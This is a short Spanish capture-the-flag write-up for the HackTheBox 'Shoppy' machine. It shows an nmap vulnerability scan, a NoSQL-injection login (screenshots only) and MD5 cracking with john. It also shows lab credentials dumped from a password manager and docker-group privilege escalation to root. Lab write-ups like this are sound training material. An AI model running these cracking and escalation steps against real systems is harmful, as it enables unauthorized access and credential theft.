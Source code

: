 # ShoppyWriteup

Este fue mi primer writeup

~~~
nmap -v -sS -oX vulnerabilidades.xml --stylesheet=https://svn.nmap.org/nmap/docs/nmap.xsl --script=vuln 10.10.11.180
~~~

![imagen](https://github.com/Hamibubu/Writeups/blob/main/ShoppyWriteup/Pasted%20image%2020221102102512.png?raw=true)

Nmap nos dice que está el puerto 80, entonces entramos y hay un login
Pero antes editamos los hosts para entrar

~~~
sudo nano /etc/hosts
~~~

Ahora si entramos y calamos un sql injection básico

![imagen](https://github.com/Hamibubu/Writeups/blob/main/ShoppyWriteup/Pasted%20image%2020221101193140.png?raw=true)

Usamos sqlinjection

Pero no jala con la normal, investigamos y descubrimos

Esta es mongoDB

![imagen](https://github.com/Hamibubu/Writeups/blob/main/ShoppyWriteup/Pasted%20image%2020221101193327.png?raw=true)

Entramos y vemos admin

Sacamos la contra que esta con md5, esa es la de admin, falta de le josh que es otro user

~~~
┌──(kali㉿kali)-[~]
└─$ sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.md5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-11-01 21:44) 0g/s 20787Kp/s 20787Kc/s 20787KC/s  fuckyooh21..*7¡Vamos!

~~~

## Escalar privilegios

Vemos un password manager

~~~
jaeger@shoppy:/home/deploy$ sudo -u  deploy /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ ls
creds.txt  password-manager  password-manager.cpp
$ cat cred
cat: cred: No such file or directory
$ cat creds.txt
Deploy Creds :
username: deploy
password: Deploying@pp!
~~~

Conseguimos las creds

Corremos con docker

~~~       
$ docker run -di --name flast101 alpine:latest
53d650ce3ac0a77c2516cf21fc171f2ed443779bb1a8112a7ba05931edbf1bc9
$ docker exec -ti flast101 sh
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # whoami
root
~~~

Listo


